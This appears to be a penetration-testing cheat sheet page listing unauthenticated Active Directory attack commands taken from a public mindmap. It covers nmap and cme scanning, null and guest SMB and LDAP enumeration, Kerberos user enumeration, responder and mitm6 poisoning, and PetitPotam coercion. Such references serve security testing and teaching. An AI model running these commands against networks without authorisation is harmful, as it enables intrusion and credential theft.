

repository: TomInTheBytes/Cyber-Journal · page: cheatsheets/active_directory/index.html · generator: mkdocs

# Active Directory

Extracted from the Orange Cyberdefense "Pentest Active Directory" ![mindmap](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg) SVG, grouped by the dashed boxes (sections) in the diagram. Each bullet is one node's text as it appears in the diagram (short labels like "Admin" or "scan" mark flow/decision points between commands, not commands themselves).

## No credentials

- `cme smb <ip_range> # enumerate smb hosts`
- `nmap -sP -p <ip> # ping scan`
- `nmap -PN -sV --top-ports 50 --open <ip> # quick scan`
- `nmap -PN --script smb-vuln* -p139,445 <ip> # search smb vuln`
- Scan Network
- find vulnerable host
- `nmap -PN -sC -sV -oA <output> <ip> # classic scan`
- `nmap -PN -sC -sV -p- -oA <output> <ip> # full scan`
- `nmap -sU -sC -sV -oA <output> <ip> # udp scan`
- nmcli dev show eth0 # show domain name & dns
- Find DC IP
- `nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>`
- `dig axfr <domain_name> @<name_server>`
- zone transfer
- `enum4linux -a -u "" -p "" <dc-ip> && enum4linux -a -u "guest" -p "" <dc-ip>`
- `smbmap -u "" -p "" -P 445 -H <dc-ip> && smbmap -u "guest" -p "" -P 445 -H <dc-ip>`
- `smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>`
- List guest access on smb share
- `cme smb <ip> -u '' -p '' # enumerate null session`
- `cme smb <ip> -u 'a' -p '' # enumerate anonymous access`
- `nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>`
- user found
- Enumerate ldap
- `ldapsearch -x -h <ip> -s base`
- `enum4linux -U <dc-ip> | grep 'user:'`
- `cme smb <ip> --users`
- `net rpc group members 'Domain Users' -W '<domain>' -I '<ip>' -U '%'`
- Find user list
- `nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip>`
- OSINT - enumerate username on internet
- `responder -I eth0 (use --lm to force lm downgrade) # disable smb & http if relay`
- 🔥 LLMNR / NBTNS/ MDNS
- Poisoning SMB -> HTTP ->
- IPV6 prefered to IPV4
- `mitm6 -d <domain>`
- poisoning
- ARP poisoning
- bettercap
- `PetitPotam.py -d <domain> <listener_ip> <target_ip>`
- coerce SMB ->
- coerce
- Unauthent PetitPotam (CVE-2022-26925)
